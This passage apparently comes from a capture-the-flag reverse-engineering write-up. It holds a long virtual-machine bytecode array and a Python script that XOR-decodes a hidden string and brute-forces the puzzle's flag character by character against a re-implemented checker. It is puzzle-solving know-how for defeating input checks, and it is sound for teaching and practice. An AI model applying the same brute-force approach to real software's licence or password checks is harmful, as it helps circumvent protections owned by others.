0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 22, 0, 0, 0, 1, 0, 0, 0,33, 0, 0, 0, 244, 0, 0, 0, 84, 150,37, 1, 243, 0, 0, 0, 242, 0, 0, 0,52, 150, 37, 1, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 33, 0,0, 0, 1, 0, 0, 0, 44, 0, 0, 0,244, 0, 0, 0, 104, 219, 54, 1, 243, 0,0, 0, 242, 0, 0, 0, 156, 220, 54, 1,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 16, 0, 0, 0, 248, 0, 0, 0,244, 0, 0, 0, 44, 0, 0, 0, 1, 0,0, 0, 11, 0, 0, 0, 244, 0, 0, 0,124, 32, 72, 1, 243, 0, 0, 0, 242, 0,0, 0, 125, 33, 72, 1, 254, 0, 0, 0,102, 0, 0, 0, 240, 0, 0, 0, 16, 0,0, 0, 248, 0, 0, 0, 244, 0, 0, 0,11, 0, 0, 0, 1, 0, 0, 0, 22, 0,0, 0, 244, 0, 0, 0, 144, 101, 89, 1,243, 0, 0, 0, 242, 0, 0, 0, 174, 101,89, 1, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 22, 0, 0, 0,1, 0, 0, 0, 33, 0, 0, 0, 244, 0,0, 0, 164, 170, 106, 1, 243, 0, 0, 0,242, 0, 0, 0, 184, 171, 106, 1, 254, 0,0, 0, 102, 0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 33, 0, 0, 0, 1, 0, 0, 0,44, 0, 0, 0, 244, 0, 0, 0, 184, 239,123, 1, 243, 0, 0, 0, 242, 0, 0, 0,47, 240, 123, 1, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 44, 0,0, 0, 1, 0, 0, 0, 11, 0, 0, 0,244, 0, 0, 0, 204, 52, 141, 1, 243, 0,0, 0, 242, 0, 0, 0, 42, 53, 141, 1,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 16, 0, 0, 0, 248, 0, 0, 0,244, 0, 0, 0, 11, 0, 0, 0, 1, 0,0, 0, 22, 0, 0, 0, 244, 0, 0, 0,224, 121, 158, 1, 243, 0, 0, 0, 242, 0,0, 0, 231, 122, 158, 1, 254, 0, 0, 0,102, 0, 0, 0, 240, 0, 0, 0, 16, 0,0, 0, 248, 0, 0, 0, 244, 0, 0, 0,22, 0, 0, 0, 1, 0, 0, 0, 33, 0,0, 0, 244, 0, 0, 0, 244, 190, 175, 1,243, 0, 0, 0, 242, 0, 0, 0, 25, 191,175, 1, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 33, 0, 0, 0,1, 0, 0, 0, 44, 0, 0, 0, 244, 0,0, 0, 8, 4, 193, 1, 243, 0, 0, 0,242, 0, 0, 0, 60, 4, 193, 1, 254, 0,0, 0, 102, 0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 44, 0, 0, 0, 1, 0, 0, 0,11, 0, 0, 0, 244, 0, 0, 0, 28, 73,210, 1, 243, 0, 0, 0, 242, 0, 0, 0,164, 73, 210, 1, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 11, 0,0, 0, 1, 0, 0, 0, 22, 0, 0, 0,244, 0, 0, 0, 48, 142, 227, 1, 243, 0,0, 0, 242, 0, 0, 0, 62, 142, 227, 1,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 16, 0, 0, 0, 248, 0, 0, 0,244, 0, 0, 0, 22, 0, 0, 0, 1, 0,0, 0, 33, 0, 0, 0, 244, 0, 0, 0,68, 211, 244, 1, 243, 0, 0, 0, 242, 0,0, 0, 176, 211, 244, 1, 254, 0, 0, 0,102, 0, 0, 0, 240, 0, 0, 0, 16, 0,0, 0, 248, 0, 0, 0, 244, 0, 0, 0,33, 0, 0, 0, 1, 0, 0, 0, 44, 0,0, 0, 244, 0, 0, 0, 88, 24, 6, 2,243, 0, 0, 0, 242, 0, 0, 0, 83, 24,6, 2, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 44, 0, 0, 0,1, 0, 0, 0, 11, 0, 0, 0, 244, 0,0, 0, 108, 93, 23, 2, 243, 0, 0, 0,242, 0, 0, 0, 118, 94, 23, 2, 254, 0,0, 0, 102, 0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 11, 0, 0, 0, 1, 0, 0, 0,22, 0, 0, 0, 244, 0, 0, 0, 128, 162,40, 2, 243, 0, 0, 0, 242, 0, 0, 0,65, 162, 40, 2, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 22, 0,0, 0, 1, 0, 0, 0, 33, 0, 0, 0,244, 0, 0, 0, 148, 231, 57, 2, 243, 0,0, 0, 242, 0, 0, 0, 102, 232, 57, 2,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 16, 0, 0, 0, 248, 0, 0, 0,244, 0, 0, 0, 33, 0, 0, 0, 1, 0,0, 0, 44, 0, 0, 0, 244, 0, 0, 0,168, 44, 75, 2, 243, 0, 0, 0, 242, 0,0, 0, 129, 45, 75, 2, 254, 0, 0, 0,102, 0, 0, 0, 240, 0, 0, 0, 16, 0,0, 0, 248, 0, 0, 0, 244, 0, 0, 0,44, 0, 0, 0, 1, 0, 0, 0, 11, 0,0, 0, 244, 0, 0, 0, 188, 113, 92, 2,243, 0, 0, 0, 242, 0, 0, 0, 240, 114,92, 2, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 11, 0, 0, 0,1, 0, 0, 0, 22, 0, 0, 0, 244, 0,0, 0, 208, 182, 109, 2, 243, 0, 0, 0,242, 0, 0, 0, 56, 183, 109, 2, 254, 0,0, 0, 102, 0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 22, 0, 0, 0, 1, 0, 0, 0,33, 0, 0, 0, 244, 0, 0, 0, 228, 251,126, 2, 243, 0, 0, 0, 242, 0, 0, 0,252, 252, 126, 2, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 33, 0,0, 0, 1, 0, 0, 0, 44, 0, 0, 0,244, 0, 0, 0, 248, 64, 144, 2, 243, 0,0, 0, 242, 0, 0, 0, 241, 65, 144, 2,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 16, 0, 0, 0, 248, 0, 0, 0,244, 0, 0, 0, 44, 0, 0, 0, 1, 0,0, 0, 11, 0, 0, 0, 244, 0, 0, 0,12, 134, 161, 2, 243, 0, 0, 0, 242, 0,0, 0, 231, 134, 161, 2, 254, 0, 0, 0,102, 0, 0, 0, 240, 0, 0, 0, 16, 0,0, 0, 248, 0, 0, 0, 244, 0, 0, 0,11, 0, 0, 0, 1, 0, 0, 0, 22, 0,0, 0, 244, 0, 0, 0, 32, 203, 178, 2,243, 0, 0, 0, 242, 0, 0, 0, 227, 203,178, 2, 254, 0, 0, 0, 102, 0, 0, 0,240, 0, 0, 0, 16, 0, 0, 0, 248, 0,0, 0, 244, 0, 0, 0, 22, 0, 0, 0,1, 0, 0, 0, 33, 0, 0, 0, 244, 0,0, 0, 52, 16, 196, 2, 243, 0, 0, 0,242, 0, 0, 0, 93, 16, 196, 2, 254, 0,0, 0, 102, 0, 0, 0, 240, 0, 0, 0,16, 0, 0, 0, 248, 0, 0, 0, 244, 0,0, 0, 33, 0, 0, 0, 1, 0, 0, 0,44, 0, 0, 0, 244, 0, 0, 0, 72, 85,213, 2, 243, 0, 0, 0, 242, 0, 0, 0,149, 85, 213, 2, 254, 0, 0, 0, 102, 0,0, 0, 240, 0, 0, 0, 16, 0, 0, 0,248, 0, 0, 0, 244, 0, 0, 0, 44, 0,0, 0, 1, 0, 0, 0, 11, 0, 0, 0,244, 0, 0, 0, 92, 154, 230, 2, 243, 0,0, 0, 242, 0, 0, 0, 123, 154, 230, 2,254, 0, 0, 0, 102, 0, 0, 0, 240, 0,0, 0, 0, 0, 0, 0, 0, 0, 0, 0,]
f1 = [246, 0, 0, 0, 108, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,71, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 13, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 5, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 19, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 10, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,70, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 2, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 9, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 9, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 1, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,74, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 21, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 3, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 18, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 19, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,8, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 15, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 11, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 70, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 3, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,3, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 20, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 14, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 18, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 70, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,20, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 9, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 0, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 70, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 2, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,3, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 21, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 21, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 3, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 20, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,22, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 2, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 20, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 7, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,14, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 3, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 4, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 70, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,10, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 10, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 15, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 17, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 70, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,19, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 9, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 31, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 70, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 74, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,31, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 10, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 18, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 5, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 3, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,20, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 20, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 9, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 5, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 8, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,15, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 1, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 7, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 10, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,0, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 3, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 14, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 18, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,70, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 20, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 3, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 17, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 21, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,8, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 7, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 70, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 19, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,246, 0, 0, 0, 9, 0, 0, 0, 246, 0,0, 0, 102, 0, 0, 0, 246, 0, 0, 0,31, 0, 0, 0, 246, 0, 0, 0, 102, 0,0, 0, 246, 0, 0, 0, 70, 0, 0, 0,246, 0, 0, 0, 102, 0, 0, 0, 246, 0,0, 0, 0, 0, 0, 0, 246, 0, 0, 0,102, 0, 0, 0, 246, 0, 0, 0, 47, 0,0, 0, 246, 0, 0, 0, 102, 0, 0, 0,247, 0, 0, 0]

m=[]
for i in range(4,len(f1),8):
    m.append(f1[i])
for i in reversed(range(0,len(m),2)):
    print(chr(m[i]^m[i-1]),end='')

flag='mi'

a1 = ord(flag[1])
v7 = ord(flag[0])

p = f.index(244)
print(p)
i = 2


def panduan(flag):
    # 判断flag是否正确
    a1 = ord(flag[1])
    v7 = ord(flag[0])

    p = f.index(244)
    i = 2
    while p <= len(f):

        # print(v7)
        a1 += f[p + 12]
        a1 %= 256
        # print(a1)
        v7 += f[p + 20]+ f[p + 4]
        v7 %= 256
        # print(v7)
        v7 = v7 ^ a1
        v7 %= 256
        # print(f"{v7}---{f[p+32]}")
        if i == len(flag):
            if v7 == f[p + 32]:
                return True
            else:
                return False
        v7 = a1
        v7 %= 256
        # print(v7)
        try:
            a1 = ord(flag[i])
        except:
            break
        # print(a1)
        i += 1
        p += 56


for i in range(2,45):
    print(f'正在爆破第{i}位字符...')
    for k in range(127):
        if panduan(flag + chr(k)):
            flag += chr(k)
            print(flag)
            break
        else:
            continue
```

.png)

